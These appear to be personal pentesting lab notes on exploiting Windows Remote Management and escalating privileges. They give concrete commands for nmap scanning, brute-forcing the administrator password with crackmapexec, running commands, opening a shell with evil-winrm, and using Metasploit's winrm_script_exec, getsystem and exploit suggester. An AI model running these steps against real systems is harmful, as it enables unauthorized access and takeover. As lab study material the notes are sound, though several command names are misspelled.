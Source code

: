### Exploit WinRM

- Windows remote managment facilitates remote access with windows systems over HTTP(s)
- WinRM Typically uses TCP port 5985 and 5986(HTTPS)
- can use crackmapexec to perform a brute-force on WinRM
- also evil-winrm to optain command shell

1. scan with nmap `nmap -sV -sC -p5000-6000 10.10.x.x` , the result will not say that it is WinRM, but from the port number we can deduce it
2. use crackmapexec to both confirm and brute force: `crackmapecex`
3. In crackmapexec: `crackmapexec winrm 10.10.x.x -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
4. after opataining creds check command with -x: `crackmapexec winrm 10.10.x.x -u administrator -p tinkerbell -x "whoami"` or "systeminfo"
5. evil-winrm to get shell: `evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.2.19.116`
6. find flag

_meterpreter_

1. `service postgresql start && msfconsole`
2. search: `search winrm_script`, look for exploit/windows/winrm/winrm_script_excec
3. set options + also set FORCE_VBS true

## Privelege Escalation

### meterpreter elevation

- in msfconsole you can use the privelege escalation suggester.

1. when logged in to meterpreter, on the system you have compromised with low level creds, type `getsystem` to see if you can just raise priveleges that way. if not go to step 2.
2. after gaining access to the machine in msfconsole(nmap scan then get creds(low level), then get access), background the session( `background` see picture) search for `search suggester`
   ![alt text](/assets/meterpreter_background_session.png)
3. `use post/multi/recon/local_exploit_suggester`
4. run one of the following that fits

